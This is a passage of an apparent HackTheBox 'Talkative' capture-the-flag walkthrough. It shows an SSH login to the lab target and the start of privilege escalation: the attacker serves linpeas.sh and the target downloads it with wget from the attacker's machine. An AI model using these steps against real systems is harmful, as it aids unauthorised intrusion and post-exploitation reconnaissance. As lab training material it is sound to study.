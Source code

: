 The authenticity of host '10.10.11.155 (10.10.11.155)' can't be established.
ECDSA key fingerprint is SHA256:kUPIZ6IPcxq7Mei4nUzQI3JakxPUtkTlEejtabx4wnY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Could not create directory '/var/www/.ssh' (Permission denied).
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
saul@10.10.11.155's password: 
Permission denied, please try again.
saul@10.10.11.155's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 24 Jun 2022 01:02:21 PM UTC

  System load:                      0.06
  Usage of /:                       72.9% of 8.80GB
  Memory usage:                     68%
  Swap usage:                       0%
  Processes:                        380
  Users logged in:                  0
  IPv4 address for br-ea74c394a147: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.155
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:c228


18 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

saul@talkative:~$ 
```


## Privilege Escalation

So we are finally on the host and now we can start to enumerate the internals of the machine.

### Linpeas   
I've started off with ```linpeas.sh```

Server:
```
┌──(kali㉿kali)-[~/htb/talkative/serve]
└─$ mv ../linpeas.sh .                                
                                                                                                                                                            
┌──(kali㉿kali)-[~/htb/talkative/serve]
└─$ python3 -m updog -p 80
[+] Serving /home/kali/htb/talkative/serve...
 * Running on all addresses.
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://192.168.178.89:80/ (Press CTRL+C to quit)
10.10.11.155 - - [24/Jun/2022 17:06:50] "GET / HTTP/1.1" 200 -
10.10.11.155 - - [24/Jun/2022 17:06:57] "GET /linpeas.sh HTTP/1.1" 200 -
```

Client:
```
saul@talkative:/dev/shm$ wget 10.10.14.4/linpeas.sh
--2022-06-24 13:12:57--  http://10.10.14.4/linpeas.sh
Connecting to 10.10.14.4:80... connected.
HTTP request sent, awaiting response... 200 OK